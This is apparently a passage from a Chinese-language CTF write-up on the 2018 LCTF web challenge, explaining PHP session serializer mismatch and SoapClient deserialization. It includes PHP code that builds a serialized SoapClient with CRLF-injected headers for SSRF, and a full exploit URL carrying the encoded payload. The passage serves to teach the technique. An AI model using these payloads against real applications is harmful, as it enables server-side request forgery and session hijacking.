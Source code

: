 这样，我们就可以利用`call_user_func($_GET[f],$_POST);`来设置`session.serialize_handler`的值，从而进行Soap的反序列化

```php
<?php
$a = new SoapClient(null, array(
	'location' => "http://127.0.0.1/flag.php",
	'user_agent' => "AAA:BBB\r\n"."Cookie:PHPSESSID=22704eeclr7famlh9s21m9to26",
	'uri' => "123"
));
$s = serialize($a);
echo urlencode($s);
```

```
http://172.81.210.82/?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2Flocalhost%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A52%3A%22AAA%3ABBB%0D%0ACookie%3APHPSESSID%3Db8govp8041cfm1cb307bsf66v3%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D

serialize_handler=php_serialize
```

提交之后，就能看到，这里以`php_serialize`模式保存session的时候，会显示`name`的value值是一个序列化字符串

![](2018-lctf-web-学习篇\2.png)

当我们直接访问这个页面，也就是以`php`的默认模式开启session的时候，就可以

![](2018-lctf-web-学习篇\3.png)
